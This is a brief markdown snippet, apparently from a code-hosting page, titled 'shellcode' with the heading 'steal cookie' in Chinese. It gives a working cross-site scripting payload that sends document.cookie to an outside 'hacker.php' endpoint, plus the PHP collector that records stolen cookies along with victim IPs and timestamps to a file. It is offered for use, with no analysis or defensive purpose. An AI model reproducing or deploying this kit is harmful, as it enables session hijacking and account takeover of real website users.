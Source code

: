 ### shellcode

#### 盗取cookie

```javascript
var img = new Image(); img.src="http://emlogb/hacker.php?x=" + document.cookie; document.body.append(img);
```

```php
<?php
$cookie = $_GET['x'];
$ip = getenv ('REMOTE_ADDR');
$time = date('Y-m-d g:i:s');
$fp = fopen("cookie.txt","a");
fwrite($fp,"IP: ".$ip."Date: ".$time." Cookie:".$cookie."\n");
fclose($fp);
?>

```

